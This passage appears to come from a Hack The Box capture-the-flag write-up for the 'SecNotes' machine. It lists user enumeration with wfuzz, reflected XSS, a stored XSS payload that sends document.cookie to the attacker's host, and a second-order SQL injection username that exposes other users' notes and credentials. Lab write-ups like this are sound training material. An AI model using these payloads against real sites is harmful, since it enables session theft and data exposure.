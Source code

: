 ### Finding #1: We can enumerate user accounts

The box tells us whether or not a username exists when we attempt to log in.

![](/assets/images/htb-writeup-secnotes/1.png)

I tried fuzzing different usernames with wfuzz but only found the `Tyler` username which we already know from the SecNotes application page:

```
wfuzz -z file,names.txt -d "username=FUZZ&password=1" --hs "No account found with that username" http://10.10.10.97/login.php
```

### Finding #2: Reflected XSS on the main login page

The HTML page returns the username when authentication fails and the input is not properly sanitized so we can trigger an XXS

Example payload in the username field: `"><script>alert(1);</script>`

![](/assets/images/htb-writeup-secnotes/2.png)

![](/assets/images/htb-writeup-secnotes/3.png)

But we won't be able to do anything useful with this since only our own user sees the error.

### Finding #3: Stored XSS in the notes applications

The notes application doesn't escape any of the input data so we can embed javascript in the notes and attempt to steal cookies. Unfortunately there is no other user connecting and checking the notes so this is not useful for us here (we can't steal session cookies of a logged on user).

Payload: `<script>document.write('<img src="http://10.10.14.23:80/collect.gif?cookie=' + document.cookie + '" />')</script>`

![](/assets/images/htb-writeup-secnotes/4.png)

![](/assets/images/htb-writeup-secnotes/5.png)

### Finding #4: 2nd order SQL injection on the registration page

There's an SQL injection vulnerability on the `home.php` page that we can abuse by creating a user with the following name: `test' or 1=1-- -`

Once we log in after, the notes page will display all the notes from all users. The resulting query probably ends up being something like `SELECT * FROM notes WHERE user = 'test' OR 1=1` so that basically returns all the notes because of the TRUE condition.

One of the notes contains the credentials for the `Tyler` user.

![](/assets/images/htb-writeup-secnotes/6.png)

### Finding #5: We can have Tyler change his password by sending him a link

